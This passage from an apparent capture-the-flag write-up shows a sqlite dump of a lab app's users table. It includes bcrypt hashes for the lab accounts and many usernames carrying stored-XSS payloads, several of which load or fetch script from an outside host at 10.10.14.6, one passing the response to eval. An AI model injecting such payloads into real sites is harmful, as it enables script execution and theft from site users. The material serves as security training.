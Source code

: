 
Besides junk I submitted, there are two other users, tody and alice:

    
    
    sqlite> .headers on
    sqlite> select * from users;
    id|username|password_digest|role|created_at|updated_at
    1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.|administrator|2022-05-30 18:02:45.319074|2022-05-30 18:02:45.319074
    2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle|user|2022-05-30 18:02:45.542476|2022-05-30 18:02:45.542476
    105|0xdf|$2a$12$DJB3GIxYkpz1rkOxWKmwP.cnm6ic.jdWcFBFxXwirw.VS5dFPybHe|user|2023-07-19 17:13:44.797453|2023-07-19 17:13:44.797453
    106|0xdf<b>test</b>|$2a$12$sG8d45xLAgVjrhY7kVeiNuWBN8S04ioNgtdgYqw2uMAyZZXW8nbT2|user|2023-07-19 19:32:11.049504|2023-07-19 19:32:11.049504
    107|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|$2a$12$fDMVCFjjoboVvHFz9U2Kbe536euIA6Gm0dqrknQMzafEWO7bfuIq.|user|2023-07-19 20:08:52.224937|2023-07-19 20:08:52.224937
    108|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A|$2a$12$Q0AaVfmLF6Yp.lESM9c9re445KypgBXTQYfVUSZi8VKjjFE8OEaXW|user|2023-07-19 21:04:05.518276|2023-07-19 21:04:05.518276
    109|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9|$2a$12$Cs8zMXcNmwPPdqDEsjbHO.dDWdg0fsEoyKMrlCG6g4S8byWamxfma|user|2023-07-19 21:05:36.554805|2023-07-19 21:05:36.554805
    110|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>alert(1)</script>|$2a$12$bl5b5OhOPon6yWiCecQmn.XA5TrfzPuBy0q1s3cq9JllNoWB1LHUW|user|2023-07-19 21:10:58.115547|2023-07-19 21:10:58.115547
    111|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=alert(1) />|$2a$12$6JxEirjtiNeeqfh1q/YDb./QlruSQqZwcQiS9C1xSces1VNL2jOM2|user|2023-07-19 21:13:25.997637|2023-07-19 21:13:25.997637
    112|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script src="http://10.10.14.6/x.js"></script>|$2a$12$wgTlg7DLNb.pkdxBLVHc3O0IGQXkXunE1U5SpMH.tQBxY607fdQza|user|2023-07-19 21:16:10.817502|2023-07-19 21:16:10.817502
    113|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>document.location="http://10.10.14.6/test";</script>|$2a$12$D2JoijAMCVcIrKVL34vdJeA6P.fXeRRZSstyqRORQ17DW/aRtZNNe|user|2023-07-19 21:19:48.760857|2023-07-19 21:19:48.760857
    114|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=document.location="http://10.10.14.6/xss" />|$2a$12$FHBL2qUuFUC/66Zoa6HdmOJud.snVige.ub45vd1NZ5bQrNp8qCei|user|2023-07-19 21:20:52.458749|2023-07-19 21:20:52.458749
    115|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="document.location=http://10.10.14.6/xss" />|$2a$12$.ktGXw2gESMAs1ne/tUtnOU2/N2brvmakxeEMzyem2APDCdz/tcqC|user|2023-07-19 21:21:34.761976|2023-07-19 21:21:34.761976
    116|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<select<style/><img src='http://10.10.14.6/xss>|$2a$12$8olOWHQVwKVNqV6eUmKXgOyiaHOQcJAH3ZLPIu6LnYSSd86nKj64i|user|2023-07-19 21:31:08.330215|2023-07-19 21:31:08.330215
    117|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$DFrJEGH6dwlQ/neQawQGQuacgCd4gtQwOTTZ/uPpXVaOOROwZEM9K|user|2023-07-19 21:32:20.269798|2023-07-19 21:32:20.269798
    118|c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img src='http://10.10.14.6/c0derpwner'>|$2a$12$YDADEpUR8qWm5NMMXJ2FK.MRp22Ju9YD1nSKu6taUEGV2TPFqrZvu|user|2023-07-19 21:32:44.208237|2023-07-19 21:32:44.208237
    119|ahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$4VlQAACmOgiB2KIvgogfOeojnJqgD9CAWpR04R2NunB1YB12TUEOO|user|2023-07-19 21:34:02.621965|2023-07-19 21:34:02.621965
    120|hahahahhahhahahahhahahhahahhahahahhahahahhahahha<script src=http://10.10.14.6/lol></script>|$2a$12$x08EqabROixvtZ9lO0fKI.iB3bVu9mjsvl5ZofLOhrSMAPnOapPoa|user|2023-07-19 21:34:36.188247|2023-07-19 21:34:36.188247
    121|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror='const varName = require(http://10.10.14.6/require);'/>|$2a$12$JleUHwZVt0pa/oVrw06jvupUoyzD.jfbPK5oJVQqSoKTFWJklIS3m|user|2023-07-19 21:43:42.416208|2023-07-19 21:43:42.416208
    122|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=import('http://10.10.14.6/import/x.js;') />|$2a$12$7sDTadpV7cnnMsaF8R.6ceLZosCL4HFlSht3Ohf0bn1J2tQb62jDC|user|2023-07-19 21:45:25.750435|2023-07-19 21:45:25.750435
    123|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=require('http://10.10.14.6/import/x.js;') />|$2a$12$OXUmiZeRioUjEu9wlp1GcObPK52EQFj8w3M0pW4GD6e4l.dGE5I/S|user|2023-07-19 21:46:10.078449|2023-07-19 21:46:10.078449
    124|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A|$2a$12$nL101K.SuBoM2U3ux0a9huq4rqBwfXLETxHL8ZkY6sfVqrnv0dE1G|user|2023-07-19 21:46:19.048602|2023-07-19 21:46:19.048602
    125|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=const a = require('http://10.10.14.6/import/x.js'); a.run(); />|$2a$12$PTHPuQoworOSyiXXlIuZ1OQV.qwYscmNtAQ4GyH/CzOJpcnHLOS6S|user|2023-07-19 21:47:36.189326|2023-07-19 21:47:36.189326
    126|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="const a = require('http://10.10.14.6/import/x.js'); a.run();" />|$2a$12$zLNLJWL.rtWd17NRl7vs.uJPHOjm37vQSf8Ioshqp5qsoKgXiAPCW|user|2023-07-19 21:48:07.684613|2023-07-19 21:48:07.684613
    127|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<script>alert(1)</script>|$2a$12$f4hE7yXCcUNoJbWzmxf3devlPPN3TSmFNZRV0NaWORpCQ5Ub50JU6|user|2023-07-19 21:50:16.602200|2023-07-19 21:50:16.602200
    128|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch') />|$2a$12$3IQ73uvHr9INl2Z4X9AgeeSgx3ZJWYaG00GwSgK4QKjPKaj7OG0jW|user|2023-07-19 21:54:54.220252|2023-07-19 21:54:54.220252
    129|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror=fetch('http://10.10.14.6/fetch').then(function(r){ eval(r);} />|$2a$12$dBI04HB28z./PKSpx9e4qONoL8elaNFw0DIhI9pDvFHzxFRvaROXe|user|2023-07-19 21:56:49.268887|2023-07-19 21:56:49.268887
